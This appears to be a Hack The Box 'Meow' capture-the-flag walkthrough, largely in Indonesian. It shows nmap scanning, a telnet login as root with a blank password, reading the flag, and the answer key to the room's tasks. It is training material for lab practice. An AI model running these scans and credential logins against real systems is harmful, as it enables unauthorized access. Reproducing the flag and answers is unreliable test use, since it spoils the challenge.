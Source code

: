 # HackTheBox - Starting Point Walkthrough
Created By [Badzlan Nur Dhabith](https://www.linkedin.com/in/badzlannurdhabith/)

## Challenge : Meow
### Steps and Solutions
Pertama lakukan pengecekan apakah sudah ada tunnel ip target, dengan command :
```
ifconfig
```
```
┌──(root㉿localhost)-[~]
└─# ifconfig                                    
...
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.56  netmask 255.255.254.0  destination 10.10.14.56
        inet6 dead:beef:2::1036  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::8e5c:baa2:365b:2370  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 48 (48.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
jika sudah ada tun0 berarti kita sudah connect dengan target dengan openvpn

------------------------------------------------------------------------------------------------------

Lalu, cek apakah kita dan target sudah terhubung, dengan command :
```
ping [ip target]
```
```
┌──(root㉿localhost)-[~]
└─# ping 10.129.49.229
PING 10.129.49.229 (10.129.49.229) 56(84) bytes of data.
64 bytes from 10.129.49.229: icmp_seq=1 ttl=63 time=253 ms
64 bytes from 10.129.49.229: icmp_seq=3 ttl=63 time=268 ms
64 bytes from 10.129.49.229: icmp_seq=4 ttl=63 time=257 ms
64 bytes from 10.129.49.229: icmp_seq=5 ttl=63 time=255 ms
--- 10.129.49.229 ping statistics ---
5 packets transmitted, 4 received, 20% packet loss, time 4021ms
rtt min/avg/max/mdev = 253.414/258.182/267.999/5.776 ms
```

------------------------------------------------------------------------------------------------------

Selanjutnya, lakukan scanning port target untuk melihat port dan service yang open, dengan command :
```
nmap -sV [ip target]
```
```
┌──(root㉿localhost)-[~]
└─# nmap -sV 10.129.49.229        
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-01 23:10 EDT
Nmap scan report for 10.129.49.229
Host is up (0.35s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```
dari hasil scanning terlihat bahwa port yang open adalah port 23 dengan service telnet

------------------------------------------------------------------------------------------------------

Kemudian, kita coba telnet target untuk melihat file dan direktori target menggunakan command :
```
telnet [ip target]
```
login sebagai root agar bisa masuk tanpa password
```
┌──(root㉿localhost)-[~]
└─# telnet 10.129.49.229                                                                                         
Trying 10.129.49.229...
Connected to 10.129.49.229.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 02 Sep 2022 03:22:51 AM UTC

  System load:           0.08
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             141
  Users logged in:       0
  IPv4 address for eth0: 10.129.49.229
  IPv6 address for eth0: dead:beef::250:56ff:feb9:98fc

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
```

------------------------------------------------------------------------------------------------------

Selanjutnya, kita coba lihat list file dan direktori target dengan command :
```
ls
```
```
root@Meow:~# ls
flag.txt  snap
```
ternyata ada file bernama flag.txt

------------------------------------------------------------------------------------------------------

Lalu open file tersebut dengan command :
```
cat [nama file]
```
```
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

------------------------------------------------------------------------------------------------------

### Walkthrough
#### Task 1
What does the acronym VM stand for? **enter**
Answer : Virtual Machine

#### Task 2
What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.
Answer : terminal

#### Task 3
What service do we use to form our VPN connection into HTB labs?
Answer : openvpn

#### Task 4
What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?
Answer : tun

#### Task 5
What tool do we use to test our connection to the target with an ICMP echo request?
Answer : ping

#### Task 6
What is the name of the most common tool for finding open ports on a target?
Answer : nmap

#### Task 7
What service do we identify on port 23/tcp during our scans?
Answer : telnet

#### Task 8
What username is able to log into the target over telnet with a blank password?
Answer : root

#### Submit Flag
Submit root flag
Answer : b40abdfe23665f766f9c61ecba8a4c19
